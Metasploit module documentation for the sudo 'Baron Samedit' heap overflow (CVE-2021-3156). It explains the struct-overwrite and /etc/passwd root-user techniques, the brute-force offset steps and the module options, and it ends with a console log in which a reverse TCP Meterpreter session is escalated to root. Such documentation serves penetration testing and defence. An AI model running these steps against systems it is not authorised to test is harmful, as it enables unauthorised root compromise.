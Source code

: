 ## Vulnerable Application

A heap based buffer overflow exists in the sudo command line utility that can be exploited by a local attacker
to gain elevated privileges. The vulnerability was introduced in July of 2011 and affects version 1.8.2
through 1.8.31p2 as well as 1.9.0 through 1.9.5p1 in their default configurations. Most targets use a technique
that leverages the overflow to overwrite a `service_user` struct in memory to reference an attacker
controlled library which results in it being loaded with the elevated privileges held by sudo. Other targets 
coerce an arbitrary line write to /etc/passwd, adding a new root user. This latter technique performs a 
partial overwrite of a memory address, requiring a brute force of ASLR.

### Manual Target

The service_user technique requires a number of lengths / offsets to function correctly. The manual target can be
used to specify these values if they are known. To identify the values, use the `brute.sh` script from the original
PoC repository at [blasty/CVE-2021-3156][1]. This will only work on systems with tcache support in libc (>= 2.26).

On the target system, the rough steps include:

1. Clone the repository, install necessary build tools and GNU parallel (`sudo apt-get install parallel` on Debian-based
  systems)
1. Do: `make brute`
1. Do: `./brute.sh ...` with the desired options to bruteforce, (see the [README.md][2])
1. Wait for the bruteforce to complete, hopefully finding a successful option.

    Successful results will be written to the `success.txt` file. They will look something like this:
    
    ```
    ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
    
    using target: Manual ['/usr/bin/sudoedit'] (56, 57, 60, 200)
    ** pray for your rootshell.. **
    [+] bl1ng bl1ng! We got it!
    ```
    
    In this case `56, 57, 60, 200` are the required values.

1. From Metasploit
    1. Do: `set TARGET Manual` to specify the manual target
    1. Do: `set Lengths 56, 57, 60, 200` to set the explicit lengths (substitute the numbers as necessary)

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/local/sudo_baron_samedit`
1. Set the necessary options (target, payload, etc.)
1. Do: `run`

## Options

### WritableDir

A directory where you can write files. The necessary source code will be uploaded and compiled to here, along with the
payload library.

### Lengths
*This is an advanced option.*

The lengths to set as used by the manual target. See the "Manual Target" section.

### NewUser
*This is an advanced option.*

For targets using the second technique (adding a user to /etc/passwd), this is the name of the user.
In the event of a successful exploit, the module will remove that user from /etc/passwd as a cleanup measure.
If the exploit partially succeeds (that is, writes to /etc/passwd, but does not result in a shell), this 
account will need to be manually cleaned up. 

### NewPassword
*This is an advanced option.*

For targets using the second technique (adding a user to /etc/passwd), this is the new password. If left blank,
the system creates a long, random password.

## Scenarios

### Ubuntu 20.04.1 x64

```
msf6 exploit(multi/ssh/sshexec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] 192.168.159.34:22 - Sending stager...
[*] Command Stager progress -  42.75% done (342/800 bytes)
[*] Sending stage (980808 bytes) to 192.168.159.34
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.34:47868) at 2021-02-11 11:55:21 -0500
[!] Timed out while waiting for command to return
[*] Command Stager progress - 100.00% done (800/800 bytes)

meterpreter > getuid
Server username: smcintyre @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/ssh/sshexec) > use exploit/linux/local/sudo_baron_samedit
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/sudo_baron_samedit) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/sudo_baron_samedit) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(linux/local/sudo_baron_samedit) > set TARGET Automatic
TARGET => Automatic
msf6 exploit(linux/local/sudo_baron_samedit) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. sudo 1.8.31 maybe a vulnerable build.
[*] Using automatically selected target: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)
[*] Writing '/tmp/libnss_9S9MeS/tB8M .so.2' (564 bytes) ...
[*] Sending stage (3008420 bytes) to 192.168.159.34
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.34:47870) at 2021-02-11 11:55:56 -0500
[+] Deleted /tmp/p60htQTDNO
[+] Deleted /tmp/libnss_9S9MeS/tB8M .so.2
[+] Deleted /tmp/libnss_9S9MeS

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

[1]: https://github.com/blasty/CVE-2021-3156
[2]: https://github.com/blasty/CVE-2021-3156/blob/da68f7c1a2961595a3226b903f1fc180b8824255/README.md#bruteforce-target-finding-experimental
